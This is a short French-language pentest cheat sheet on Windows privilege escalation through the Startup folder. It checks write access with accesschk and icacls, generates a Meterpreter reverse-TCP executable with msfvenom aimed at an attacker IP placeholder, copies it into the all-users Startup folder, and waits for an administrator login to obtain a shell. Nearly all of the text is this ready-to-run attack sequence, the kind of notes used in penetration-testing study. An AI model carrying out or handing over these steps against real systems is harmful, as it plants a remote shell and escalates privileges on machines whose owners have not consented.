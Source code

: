 # Startup Applications

Verifier si vous avez les droit d'écriture dans le répertoire de démarrage

```sh
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

# check: RW BUILTIN\Users:(F)
```

Contruire votre payload

```sh
msfvenom -p windows/meterpreter_reverse_tcp LPORT=9001 LHOST=<ATTACKER_IP> -f exe -o rshell.exe
```

Copier rshell.exe dans le répertoire de démarrage

```sh
copy rshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

> Attendre qu'un utilisateur admin se connecte et vous aurez un shell